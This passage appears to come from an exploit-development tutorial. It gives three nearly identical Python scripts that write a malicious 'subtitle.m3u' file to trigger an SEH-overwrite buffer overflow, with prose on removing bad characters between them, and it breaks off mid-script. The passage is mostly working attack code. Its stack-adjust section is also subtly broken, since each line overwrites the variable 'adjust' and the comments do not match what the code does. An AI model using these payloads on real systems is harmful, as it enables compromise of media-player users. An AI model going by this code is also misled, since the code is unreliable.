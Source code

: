 So this is what you would change your code to for the first run:

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

You should quickly realize that in that line \x00 is not a valid character. Remove it and try again.

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

We see we still have a problem. Lets split the string up into two segments of equal length and try the first segment.

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x01\x02\x03\x04\x05\x06\x07\x08"